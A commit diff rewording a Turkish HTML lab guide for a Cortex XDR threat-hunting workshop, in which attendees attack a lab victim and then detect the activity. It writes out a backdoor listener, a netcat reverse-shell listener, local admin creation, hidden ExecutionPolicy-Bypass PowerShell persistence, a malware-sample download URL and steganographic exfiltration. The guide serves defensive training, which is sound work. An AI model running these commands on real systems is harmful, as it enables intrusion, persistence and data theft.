

Before and after one commit to aysenursahin/EO-CORTEX-XDR-UTD-V1.3-TR, a plain HTML site: page site/index.html in a window 1280 px wide. Shown: the part 313-2800 px from the top of the page at 61% size. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
site: adi "Cortex XDR Threat Hunting Workshop" + Turkce metinleri dogallastir
- Baslik/banner/hero/footer/meta: Cortex XDR Threat Hunting Workshop
- Teknik kavramlar (Query Builder, reverse shell, backdoor, BIOC, WildFire,
  Local Analysis, hash, reputation, scheduled task...) Ingilizce birakildi
- Ceviri kokan ifadeler akici Turkce ile degistirildi; anlam ve komutlar ayni

Co-Authored-By: Claude Opus 4.8 <noreply@anthropic.com>
Claude-Session: https://claude.ai/code/session_01V3GEZTumGQLaQ8h29fQUE3

```diff
--- a/site/index.html
+++ b/site/index.html
@@ -3,8 +3,8 @@
 <head>
 <meta charset="utf-8"/>
 <meta content="width=device-width, initial-scale=1" name="viewport"/>
-<title>Cortex XDR UTD Workshop Lab Rehberi</title>
-<meta content="Cortex XDR UTD - Attack &amp; Detect threat hunting workshop lab rehberi" name="description"/>
+<title>Cortex XDR Threat Hunting Workshop — Lab Rehberi</title>
+<meta content="Cortex XDR Threat Hunting Workshop — Attack &amp; Detect lab rehberi" name="description"/>
 <link href="https://fonts.googleapis.com" rel="preconnect"/>
 <link crossorigin="" href="https://fonts.gstatic.com" rel="preconnect"/>
 <link href="https://fonts.googleapis.com/css2?family=Figtree:ital,wght@0,400;0,600;0,700;1,400&amp;family=JetBrains+Mono:wght@400;500&amp;display=swap" rel="stylesheet"/>
@@ -113,8 +113,8 @@ footer b { color: var(--green-dk); }
 </style>
 </head>
 <body>
-<div class="print-credit">Cortex by Palo Alto Networks · XDR UTD Workshop · Lab Rehberi</div>
-<div class="banner"><b>Cortex XDR UTD</b><span>Attack &amp; Detect · Threat Hunting Workshop</span></div>
+<div class="print-credit">Cortex by Palo Alto Networks · Cortex XDR Threat Hunting Workshop · Lab Rehberi</div>
+<div class="banner"><b>Cortex XDR Threat Hunting Workshop</b><span>Attack &amp; Detect</span></div>
 <div class="layout">
 <aside class="side" id="side">
 <button aria-expanded="false" class="btn menu-btn" id="menuBtn" type="button">Bölümler <span aria-hidden="true">▾</span></button>
@@ -135,17 +135,17 @@ footer b { color: var(--green-dk); }
 <div class="side-links">
 <a class="btn" href="#" onclick="window.print();return false;">Yazdır / PDF</a>
 </div>
-<p class="side-credit">EO Cortex XDR UTD · V1.3-TR</p>
+<p class="side-credit">Cortex XDR Threat Hunting Workshop · V1.3-TR</p>
 </div>
 </aside>
 <main>
 <header class="hero">
-<h1>Cortex XDR UTD<br/>Attack &amp; Detect</h1>
-<p>Bir saldırıyı ATTACKER makinesinden yürütür, ürettiği izleri VICTIM üzerinde Cortex XDR ile avlarsınız. Backdoor, reverse shell, persistence, malware ve data exfiltration adımlarını hem çalıştırıp hem tespit edeceksiniz.</p>
+<h1>Cortex XDR<br/>Threat Hunting Workshop</h1>
+<p>Saldırıyı ATTACKER makinesinden siz çalıştırır, bıraktığı izleri VICTIM üzerinde Cortex XDR ile avlarsınız. Backdoor, reverse shell, persistence, malware ve data exfiltration adımlarının her birini önce yapıp sonra tespit edeceksiniz.</p>
 </header>
 
 <section class="sec" id="hakkinda"><h2 class="sec-title">Workshop Hakkında</h2>
-<p>Bu lab'da iki makine kullanırsınız: saldırıyı yürüttüğünüz <strong>ATTACKER</strong> ve hedef <strong>VICTIM</strong>. Cortex XDR agent'ı yalnızca VICTIM üzerinde çalışır; attacker'ın ürettiği aktiviteyi konsoldan avlarsınız. Makineler lab için önceden hazırlanmıştır: <code>C:\x_test</code> açılmış, araçlar yerinde, ATTACKER masaüstünde kendi VICTIM'ınızın IP'si hazırdır.</p>
+<p>Lab'da iki makineniz var: saldırıyı çalıştırdığınız <strong>ATTACKER</strong> ve hedef <strong>VICTIM</strong>. Cortex XDR agent yalnızca VICTIM'da çalışır; saldırının VICTIM'da bıraktığı aktiviteyi konsoldan avlarsınız. Makineler hazır geliyor: <code>C:\x_test</code> açılmış, araçlar yerinde ve ATTACKER masaüstünde kendi VICTIM'ınızın IP'si hazır.</p>
 <div class="table-wrap"><table><caption>Roller</caption>
 <thead><tr><th>Yer</th><th>Ne yapar</th></tr></thead>
 <tbody>
@@ -153,56 +153,56 @@ footer b { color: var(--green-dk); }
 <tr><td><span class="role role-vic">VICTIM</span></td><td>Hedef makine; XDR agent burada çalışır, backdoor burada dinler</td></tr>
 <tr><td><span class="role role-xdr">XDR KONSOL</span></td><td>Query Builder, BIOC, Causality Chain, Timeline ile avlama</td></tr>
 </tbody></table></div>
-<p class="note"><span class="note-tag">Not</span>ATTACKER masaüstündeki <strong>VICTIM-BILGISI.txt</strong> dosyasında kendi VICTIM makinenizin hostname'i, IP'si ve hazır <code>Client1.exe</code> komutu yazılıdır. IP aramayın, oradan kopyalayın.</p>
+<p class="note"><span class="note-tag">Not</span>ATTACKER masaüstündeki <strong>VICTIM-BILGISI.txt</strong> dosyasında kendi VICTIM makinenizin hostname'i, IP'si ve hazır <code>Client1.exe</code> komutu var. IP aramayla uğraşmayın, oradan kopyalayın.</p>
 <label class="done-toggle"><input data-done="hakkinda" type="checkbox"/> Bu bölümü tamamladım</label></section>
 
 <section class="sec" id="s0"><h2 class="sec-title">0. Hazırlık</h2>
-<p>Makinelere bağlanın, XDR konsoluna giriş yapın ve ortamın hazır olduğunu doğrulayın.</p>
+<p>İki makineye de bağlanın, XDR konsoluna girin ve ortamın hazır olduğunu doğrulayın.</p>
 <ul>
-<li><span class="role role-vic">VICTIM</span><span class="role role-atk">ATTACKER</span> Size verilen RDP adresleriyle her iki makineye de bağlanın.</li>
-<li><span class="role role-xdr">XDR KONSOL</span> Eğitmenin verdiği konsol adresine giriş yapın (masaüstündeki <strong>XDR Konsol</strong> kısayolu).</li>
-<li><span class="role role-vic">VICTIM</span> Agent'ın yeşil/çalışır olduğunu kontrol edin:</li>
+<li><span class="role role-vic">VICTIM</span><span class="role role-atk">ATTACKER</span> Size verilen RDP adresleriyle her iki makineye bağlanın.</li>
+<li><span class="role role-xdr">XDR KONSOL</span> Eğitmenin verdiği konsol adresine girin (masaüstündeki <strong>XDR Konsol</strong> kısayolu).</li>
+<li><span class="role role-vic">VICTIM</span> Agent'ın çalıştığını (yeşil) kontrol edin:</li>
 </ul>
 <div class="code"><pre id="c0a"><code>Get-Service | Where-Object { $_.DisplayName -like "*Cortex*" }</code></pre><button class="copy" data-target="c0a" type="button">Kopyala</button></div>
-<ul><li><span class="role role-xdr">XDR KONSOL</span> Endpoints → All Endpoints'te kendi VICTIM makinenizi hostname'iyle bulun. Makinenizde <strong>UTD</strong> tag'inin atalı olduğunu doğrulayın.</li></ul>
-<div class="callout"><span class="callout-tag">Beklenen sonuç</span><p>Her iki makineye bağlısınız, VICTIM'da agent çalışıyor ve konsolda kendi makinenizi görüyorsunuz.</p></div>
+<ul><li><span class="role role-xdr">XDR KONSOL</span> Endpoints → All Endpoints'te kendi VICTIM makinenizi hostname'iyle bulun ve üzerinde <strong>UTD</strong> tag'inin atandığını doğrulayın.</li></ul>
+<div class="callout"><span class="callout-tag">Beklenen sonuç</span><p>İki makineye de bağlısınız, VICTIM'da agent çalışıyor ve konsolda kendi makinenizi görüyorsunuz.</p></div>
 <label class="done-toggle"><input data-done="s0" type="checkbox"/> Bu bölümü tamamladım</label></section>
 
 <section class="sec" id="s1"><h2 class="sec-title">1. Initial Access</h2>
-<p>VICTIM üzerinde bir backdoor dinleyici başlatır, ATTACKER'dan ona bağlanırsınız.</p>
-<ul><li><span class="role role-vic">VICTIM</span> Backdoor listener'ı başlatın. Bu, aktif bağlantı kurmaz; yalnızca 8000 ve 8001 portlarında dinlemeye geçer:</li></ul>
+<p>Önce VICTIM'da backdoor'u dinlemeye alır, sonra ATTACKER'dan bağlanırsınız.</p>
+<ul><li><span class="role role-vic">VICTIM</span> Backdoor'u başlatın. Aktif bağlantı açmaz, sadece 8000 ve 8001 portlarında dinlemeye geçer:</li></ul>
 <div class="code"><pre id="c1a"><code>cd C:\x_test\server
 w_win.exe</code></pre><button class="copy" data-target="c1a" type="button">Kopyala</button></div>
-<ul><li><span class="role role-vic">VICTIM</span> Portların dinlendiğini doğrulayın (8000, 8001):</li></ul>
+<ul><li><span class="role role-vic">VICTIM</span> Portların dinlemede olduğunu doğrulayın (8000, 8001):</li></ul>
 <div class="code"><pre id="c1b"><code>netstat -nap tcp</code></pre><button class="copy" data-target="c1b" type="button">Kopyala</button></div>
 <ul><li><span class="role role-atk">ATTACKER</span> VICTIM'a bağlanın. <strong>IP için masaüstündeki VICTIM-BILGISI.txt</strong>'i kullanın:</li></ul>
 <div class="code"><pre id="c1c"><code>cd C:\x_test\client
 Client1.exe &lt;VICTIM-IP&gt; localhost</code></pre><button class="copy" data-target="c1c" type="button">Kopyala</button></div>
-<p class="indent">Komut sonrası CMD kapanır ve <code>client</code> klasöründe <code>index.html</code> oluşur. Bu dosya VICTIM'a erişim arayüzüdür.</p>
-<ul><li><span class="role role-atk">ATTACKER</span> <code>index.html</code>'i açın, sol üstteki <strong>TestMe</strong>'ye tıklayın. VICTIM'da çıkan pop-up'a OK deyin — erişim başarılı.</li></ul>
-<div class="callout"><span class="callout-tag">Beklenen sonuç</span><p>index.html portalı açık; sağ taraf VICTIM'daki dosyaları, sol taraf erişim yöntemlerini gösterir.</p></div>
+<p class="indent">Komuttan sonra CMD kendiliğinden kapanır ve <code>client</code> klasöründe bir <code>index.html</code> oluşur; VICTIM'a bu arayüzden erişeceksiniz.</p>
+<ul><li><span class="role role-atk">ATTACKER</span> <code>index.html</code>'i açıp sol üstteki <strong>TestMe</strong>'ye tıklayın. VICTIM'da çıkan pop-up'a OK deyin — erişim başarılı.</li></ul>
+<div class="callout"><span class="callout-tag">Beklenen sonuç</span><p>index.html portalı açılır; sağ tarafta VICTIM'daki dosyalar, sol tarafta kullanabileceğiniz erişim yöntemleri olur.</p></div>
 <label class="done-toggle"><input data-done="s1" type="checkbox"/> Bu bölümü tamamladım</label></section>
 
 <section class="sec" id="s2"><h2 class="sec-title">2. Persistency</h2>
-<p>Portal üzerinden dosya yükler, reverse shell alır, local admin oluşturur ve persistence kurarsınız.</p>
+<p>Portaldan dosya yükler, reverse shell alır, local admin açar ve persistence kurarsınız.</p>
 <ul>
-<li><span class="role role-atk">ATTACKER</span> index.html → <strong>File-Upload</strong> ile önce <code>downloader.ps1</code>, sonra <code>persistency.ps1</code>'i yükleyin. Yüklenen dosyalar VICTIM'da <code>C:\x_test\server\ud</code> altında görünür.</li>
-<li><span class="role role-atk">ATTACKER</span> Netcat dinleyici başlatın:</li>
+<li><span class="role role-atk">ATTACKER</span> index.html → <strong>File-Upload</strong> ile önce <code>downloader.ps1</code>, sonra <code>persistency.ps1</code>'i yükleyin. Yüklediğiniz dosyalar VICTIM'da <code>C:\x_test\server\ud</code> altında belirir.</li>
+<li><span class="role role-atk">ATTACKER</span> Netcat'i dinlemeye alın:</li>
 </ul>
 <div class="code"><pre id="c2a"><code>cd C:\x_test\client
 nc.exe -l -p 9999</code></pre><button class="copy" data-target="c2a" type="button">Kopyala</button></div>
-<ul><li><span class="role role-atk">ATTACKER</span> index.html → <strong>RevShell</strong>'e tıklayın ve <strong>ATTACKER makinenizin IP'sini</strong> girin. Komut VICTIM'da çalışır, shell ATTACKER'da açılır. Doğru makinede olduğunuzu kontrol edin:</li></ul>
+<ul><li><span class="role role-atk">ATTACKER</span> index.html → <strong>RevShell</strong>'e tıklayın ve <strong>ATTACKER makinenizin IP'sini</strong> girin. Komut VICTIM'da çalışır ama shell size, ATTACKER'a düşer. Doğru makinede olduğunuzu kontrol edin:</li></ul>
 <div class="code"><pre id="c2b"><code>hostname</code></pre><button class="copy" data-target="c2b" type="button">Kopyala</button></div>
-<ul><li><span class="role role-atk">ATTACKER</span> Reverse shell içinde local admin oluşturun:</li></ul>
+<ul><li><span class="role role-atk">ATTACKER</span> Reverse shell'de local admin açın:</li></ul>
 <div class="code"><pre id="c2c"><code>net user /add newadmin Password123
 net localgroup administrators newadmin /add</code></pre><button class="copy" data-target="c2c" type="button">Kopyala</button></div>
 <ul><li><span class="role role-atk">ATTACKER</span> Persistence kurun (scheduled task + startup):</li></ul>
 <div class="code"><pre id="c2d"><code>powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass -File C:\x_test\server\ud\persistency.ps1</code></pre><button class="copy" data-target="c2d" type="button">Kopyala</button></div>
-<p class="indent">Çıktı olmaz. VICTIM'da <strong>Task Scheduler</strong>'da "Download 7Zip task" görünmelidir.</p>
+<p class="indent">Ekrana bir şey basmaz. VICTIM'da <strong>Task Scheduler</strong>'ı açınca "Download 7-Zip Task" görünür.</p>
 <label class="done-toggle"><input data-done="s2" type="checkbox"/> Bu bölümü tamamladım</label></section>
 
 <section class="sec" id="s3"><h2 class="sec-title">3. Threat Hunting: cmd → powershell</h2>
-<p>Saldırılarda sık görülen bir yöntem CMD'den PowerShell çağrılmasıdır. Bunu Query Builder ile bulup Causality ve Timeline ile inceleyeceksiniz.</p>
+<p>Saldırılarda sık rastlanan bir numara, PowerShell'i CMD üzerinden çağırmaktır. Bunu Query Builder'da yakalayıp Causality Chain ve Timeline ile inceleyeceksiniz.</p>
 <ul>
 <li><span class="role role-xdr">XDR KONSOL</span> Incident Response → Query Builder → <strong>Process</strong>. Şu alanları girin (HOST = kendi VICTIM makineniz):</li>
 </ul>
@@ -210,45 +210,45 @@ net localgroup administrators newadmin /add</code></pre><button class="copy" dat
 CMD ~= powershell        (~ tilde: "içerir")
 HOST = &lt;VICTIM hostname&gt;</code></pre><button class="copy" data-target="c3a" type="button">Kopyala</button></div>
 <ul>
-<li><span class="role role-xdr">XDR KONSOL</span> Sonuçlarda sağa kaydırıp <strong>SRC_</strong> alanlarına bakın: powershell'i cmd.exe'nin, onu da imzasız <code>w_win.exe</code>'nin çağırdığını görürsünüz.</li>
+<li><span class="role role-xdr">XDR KONSOL</span> Sonuçlarda sağa kaydırıp <strong>SRC_</strong> alanlarına bakın: powershell'i cmd.exe'nin, cmd.exe'yi de imzasız <code>w_win.exe</code>'nin çağırdığını görürsünüz.</li>
 <li><span class="role role-xdr">XDR KONSOL</span> persistency.ps1 satırında sağ tık → <strong>Investigate Causality Chain → Open Card in New Tab</strong>. cmd.exe → View Children → powershell.exe.</li>
 <li><span class="role role-xdr">XDR KONSOL</span> Description sütununu "task" ve "Startup" ile filtreleyerek scheduled task ve startup kayıtlarını görün.</li>
-<li><span class="role role-xdr">XDR KONSOL</span> powershell.exe → sağ tık → <strong>Investigate in Timeline</strong>. w_win.exe'nin portları (8000, 8001) ve netcat portu (9999) üzerine gelerek görünür.</li>
+<li><span class="role role-xdr">XDR KONSOL</span> powershell.exe → sağ tık → <strong>Investigate in Timeline</strong>. w_win.exe'nin dinlediği portlar (8000, 8001) ve netcat portu (9999), ilgili noktaların üzerine gelince görünür.</li>
 </ul>
 <label class="done-toggle"><input data-done="s3" type="checkbox"/> Bu bölümü tamamladım</label></section>
 
 <section class="sec" id="s4"><h2 class="sec-title">4. Credential Persistence (BIOC)</h2>
-<p><code>net.exe</code> kullanımı otomatik tespit edilmez; izlenmesi gereken bir aktivitedir. Bunun için bir BIOC kuralı yazarsınız.</p>
+<p><code>net.exe</code> kullanımı otomatik yakalanmaz; elle izlenmesi gereken bir aktivitedir. Bunun için bir BIOC kuralı yazacaksınız.</p>
 <ul>
 <li><span class="role role-xdr">XDR KONSOL</span> Detection Rules → BIOC → <strong>Add BIOC</strong> → Process. Şu alanları girip <strong>TEST</strong>'e basın:</li>
 </ul>
 <div class="code"><pre id="c4a"><code>NAME = net.exe
 CMD ~= user              (~ tilde: "içerir")
 HOST = &lt;VICTIM hostname&gt;</code></pre><button class="copy" data-target="c4a" type="button">Kopyala</button></div>
-<p class="warn"><span class="warn-tag">Dikkat</span>HOST_NAME girmezseniz tüm ortam için ortak alarm üretilir. Mutlaka kendi VICTIM makinenizi yazın.</p>
+<p class="warn"><span class="warn-tag">Dikkat</span>HOST girmezseniz kural tüm ortam için alarm üretir. Mutlaka kendi VICTIM makinenizi yazın.</p>
 <aside class="task"><div class="task-tag">Sıra sizde!</div><ul>
 <li><code>net user</code> komutunu kim çalıştırdı?</li>
 <li>Hangi process <code>net user</code>'ı tetikledi?</li>
 </ul></aside>
-<ul><li><span class="role role-xdr">XDR KONSOL</span> Sağ üstte <strong>Save</strong>. Kural kaydedildikten sonra son 30 günün ilgili aktiviteleri incident olarak Incident Response → Incident View altında görünür.</li></ul>
+<ul><li><span class="role role-xdr">XDR KONSOL</span> Sağ üstten <strong>Save</strong>. Kaydettikten sonra son 30 gündeki ilgili aktiviteler incident olarak Incident Response → Incident View altına düşer.</li></ul>
 <label class="done-toggle"><input data-done="s4" type="checkbox"/> Bu bölümü tamamladım</label></section>
 
 <section class="sec" id="s5"><h2 class="sec-title">5. Malware: WildFire &amp; Local Analysis</h2>
-<p>Ortamın malware'i nasıl yakaladığını, hash değişince hangi modülün devreye girdiğini görürsünüz. Dosyada zararlı içerik yoktur; yalnızca keşif amaçlıdır.</p>
+<p>Ortamın bir malware'i nasıl yakaladığını, hash değişince hangi modülün devreye girdiğini göreceksiniz. Dosyada zararlı bir şey yok, sadece tespit amaçlı.</p>
 <ul>
 <li><span class="role role-atk">ATTACKER</span> index.html → <strong>URL (Download)</strong> alanına şunu yazıp Submit edin:</li>
 </ul>
 <div class="code"><pre id="c5a"><code>http://www.torsque.com/malware1.exe</code></pre><button class="copy" data-target="c5a" type="button">Kopyala</button></div>
 <ul>
 <li><span class="role role-atk">ATTACKER</span> Sayfayı yenileyin, sağda oluşan dosya adını kopyalayın. <strong>Execute (binary)</strong> → File path alanına <code>ud\dosyaadi.ud</code> yazıp çalıştırın.</li>
-<li><span class="role role-vic">VICTIM</span> XDR agent → <strong>EVENT</strong> sekmesi. Dosyanın <strong>WildFire</strong> ile (hash reputation, çalıştırılmadan) yakalandığını görün.</li>
+<li><span class="role role-vic">VICTIM</span> XDR agent → <strong>EVENT</strong> sekmesi. Dosyanın <strong>WildFire</strong> ile yakalandığını görün — hash reputation'dan, çalıştırmaya bile gerek kalmadan.</li>
 <li><span class="role role-atk">ATTACKER</span> index.html → <strong>ChangeHash</strong> → aynı dosya adını girin. Aynı dosya yeni hash'le üretilir. Yenileyip yeni adı <strong>Execute (binary)</strong> ile çalıştırın.</li>
-<li><span class="role role-vic">VICTIM</span> EVENT sekmesinde bu kez dosyanın <strong>Local Analysis</strong> ile yakalandığını görün (hash değiştiği için reputation tutmadı).</li>
+<li><span class="role role-vic">VICTIM</span> EVENT sekmesinde dosyanın bu kez <strong>Local Analysis</strong> ile yakalandığını görün — hash değiştiği için reputation tutmadı.</li>
 </ul>
 <label class="done-toggle"><input data-done="s5" type="checkbox"/> Bu bölümü tamamladım</label></section>
 
 <section class="sec" id="s6"><h2 class="sec-title">6. Network Source Avı</h2>
-<p>malware1.exe'nin nereden indiğini bulursunuz. Bir dosyanın makineye ulaştığı ilk an dosya sistemindeki <strong>create</strong> işlemidir; oraya odaklanırsınız.</p>
+<p>malware1.exe'nin nereden indiğini bulacaksınız. Bir dosya makineye ilk ulaştığında dosya sisteminde bir <strong>create</strong> işlemi olur; avı oradan başlatırsınız.</p>
 <ul>
 <li><span class="role role-xdr">XDR KONSOL</span> Incident → Query Builder → <strong>File</strong>, üstten yalnızca <strong>Create</strong> seçin:</li>
 </ul>
@@ -256,23 +256,23 @@ HOST = &lt;VICTIM hostname&gt;</code></pre><button class="copy" data-target="c4a
 HOST = &lt;VICTIM hostname&gt;</code></pre><button class="copy" data-target="c6a" type="button">Kopyala</button></div>
 <ul>
 <li><span class="role role-xdr">XDR KONSOL</span> İlgili kayıtta sağ tık → <strong>Investigate Causality Chain → Open card in New Tab</strong>.</li>
-<li><span class="role role-xdr">XDR KONSOL</span> <code>w_win.exe</code> → sağ tık → <strong>Investigate in Timeline</strong>. Outgoing Connection aktivitelerinde <code>www.torsque.com</code>'a yapılan istek ve hemen ardından çalışan process görünür.</li>
+<li><span class="role role-xdr">XDR KONSOL</span> <code>w_win.exe</code> → sağ tık → <strong>Investigate in Timeline</strong>. Outgoing Connection aktivitelerinde <code>www.torsque.com</code>'a giden istek ve hemen ardından çalışan process görünür.</li>
 </ul>
 <label class="done-toggle"><input data-done="s6" type="checkbox"/> Bu bölümü tamamladım</label></section>
 
 <section class="sec" id="s7"><h2 class="sec-title">7. Data Exfiltration</h2>
-<p>Cortex XDR, dosya tipinden bağımsız davranışları kaydeder — JPEG veya uzantısız dosyalar dahil. w_win.exe'nin okuduğu/oluşturduğu dosyaları avlarsınız.</p>
+<p>Cortex XDR, dosya tipinden bağımsız olarak davranışı kaydeder — JPEG ya da uzantısız dosyalar dahil. Burada w_win.exe'nin okuduğu ve oluşturduğu dosyaları avlarsınız.</p>
 <ul>
-<li><span class="role role-atk">ATTACKER</span> index.html → <strong>Steganography</strong>. Command alanına <code>hostname</code> yazıp Submit edin; oluşan dosya adını not alın. (İsterseniz <strong>Screenshot</strong> da deneyin.) Steganografi, veriyi masum görünen bir JPEG içine gizler.</li>
+<li><span class="role role-atk">ATTACKER</span> index.html → <strong>Steganography</strong>. Command alanına <code>hostname</code> yazıp Submit edin; oluşan dosya adını not alın. (İsterseniz <strong>Screenshot</strong> da deneyin.) Steganografi, veriyi masum görünümlü bir JPEG'in içine saklar.</li>
 <li><span class="role role-xdr">XDR KONSOL</span> Incident Response → Query Builder → <strong>File</strong>. File Activity'de <strong>Create</strong> + <strong>Read</strong> seçin, Process NAME'e <code>w_win.exe</code> yazın:</li>
 </ul>
 <div class="code"><pre id="c7a"><code>Process NAME = w_win.exe
 File Activity = Create + Read</code></pre><button class="copy" data-target="c7a" type="button">Kopyala</button></div>
-<p class="indent">w_win.exe'nin oluşturduğu ve okuduğu dosyaları birlikte görürsünüz — exfiltration'ın dosya izi budur.</p>
+<p class="indent">w_win.exe'nin oluşturduğu ve okuduğu dosyaları bir arada görürsünüz — exfiltration'ın dosya izi budur.</p>
 <div class="callout"><span class="callout-tag">Tebrikler</span><p>Saldırının her aşamasını hem çalıştırdınız hem de Cortex XDR ile avladınız.</p></div>
 <label class="done-toggle"><input data-done="s7" type="checkbox"/> Bu bölümü tamamladım</label></section>
 
-<footer><b>Cortex XDR UTD — Attack &amp; Detect</b> · Lab Rehberi V1.3-TR · UD Tool: Usman Durrani · UTD design: Erdem Ocal</footer>
+<footer><b>Cortex XDR Threat Hunting Workshop</b> · Attack &amp; Detect · Lab Rehberi V1.3-TR · UD Tool: Usman Durrani · UTD design: Erdem Ocal</footer>
 </main>
 </div>
 <script>
```
